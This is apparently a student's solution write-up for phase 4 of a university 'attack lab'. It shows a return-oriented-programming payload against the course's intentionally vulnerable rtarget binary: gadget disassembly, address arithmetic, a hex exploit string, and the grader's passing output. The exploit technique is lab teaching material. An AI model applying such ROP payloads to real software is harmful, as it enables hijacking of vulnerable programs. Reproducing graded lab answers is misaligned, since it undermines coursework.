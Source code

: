 and 
rtarget.d
---
0000000000401b43 <setval_227>:
  401b43:	c7 07 48 58 90 c3    	movl   $0xc3905848,(%rdi)
  401b49:	c3                   	retq   
---

which give us our two address for popq %rax, movq %rax, %rdi. However, notice that since movq starts on the third byte, we have to add 2 to the address. Do the same for popq. New addresses are shown below

movq - 401b64 + 2 = 401b66 
popq - 401b43 + 3 = 401b46


create phase4.txt which contains string
padding
gadget 1 address
cookie
gadget 2 address
return address
touch 2 address (shown below)


phase4.txt
---
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
46 1b 40 00 00 00 00 00 // address 1
61 d0 7f 11 00 00 00 00 // cookie
66 1b 40 00 00 00 00 00 // address 2
8f 19 40 00 00 00 00 00 // touch2 location 
--- 


After running the following commands, we get something like this

Cookie: 0x117fd061
Touch2!: You called touch2(0x117fd061)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 46 1B 40 00 00 00 00 00 61 D0 7F 11 00 00 00 00 66 1B 40 00 00 00 00 00 8F 19 40 00 00 00 00 00
